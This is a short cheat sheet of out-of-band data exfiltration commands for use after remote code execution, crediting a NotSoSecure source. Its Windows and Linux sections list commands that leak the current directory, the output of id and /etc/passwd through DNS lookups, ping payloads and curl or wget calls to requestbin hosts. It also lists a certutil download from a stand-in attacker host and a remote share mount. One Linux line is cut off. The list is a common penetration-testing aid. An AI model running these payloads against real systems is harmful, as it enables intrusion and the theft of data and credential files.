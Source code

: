 # RCE Dns-data-exfiltration

## Testing
```
dig test.4f4984e83e92a11d53b7.d.requestbin.net
ping -c 2 test.4f4984e83e92a11d53b7.d.requestbin.net
ping -n 2 test.4f4984e83e92a11d53b7.d.requestbin.net
nslookup test.4f4984e83e92a11d53b7.d.requestbin.net
```

## Windows
```
for /f %i in ('cd') do nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net
for /f "tokens=1" %i IN ('cd') do (nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net)
certutil -urlcache -split -f http://atacante.com/test.txt \windows\temp\test.txt
net use h: \\atacante.com\web
```

## Linux
```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 .4f4984e83e92a11d53b7.d.requestbin.net;don
nslookup $(id).4f4984e83e92a11d53b7.d.requestbin.net
curl http://requestbin.net/r/1m8fdwf1/$(id)
wget http://requestbin.net/r/1m8fdwf1/$(id)
```

https://www.notsosecure.com/oob-exploitation-cheatsheet/
